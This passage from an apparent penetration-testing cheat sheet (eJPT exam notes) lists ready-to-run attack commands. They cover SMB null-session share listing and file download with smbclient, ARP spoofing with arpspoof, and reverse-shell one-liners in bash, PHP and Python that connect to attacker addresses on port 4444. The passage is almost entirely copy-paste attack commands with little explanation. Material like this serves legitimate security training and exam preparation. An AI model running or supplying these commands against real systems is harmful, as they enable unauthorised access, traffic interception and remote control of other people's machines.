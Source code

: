 3) If confirmed that Null Session exists, you can remotely list all share of the target:
```bash
smbclient -L WORKGROUP -I 192.168.1.10 -N -U ""
```

4) You also can connect the remote server by applying the following command:
```bash
smbclient \\\\192.168.1.10\\c$ -N -U ""
```

5) Download those files stored on the share drive:
```bash
smb: \> get Congratulations.txt
```

### ARP spoofing
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.13.37.100 -r 10.13.37.101
```

### reverse shell
bash
```bash
bash -i >& /dev/tcp/10.0.14.22/4444 0>&1
```

php one line (bash)
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.14.10/4444 0>&1'"); ?>
```

python
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.14.22",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

## programming examples
port scanner examples:

[python simple tcp scan example](https://github.com/cocomelonc/ejpt/blob/master/scanner.py)

[golang simple tcp scan example](https://github.com/cocomelonc/ejpt/blob/master/scanner.go)
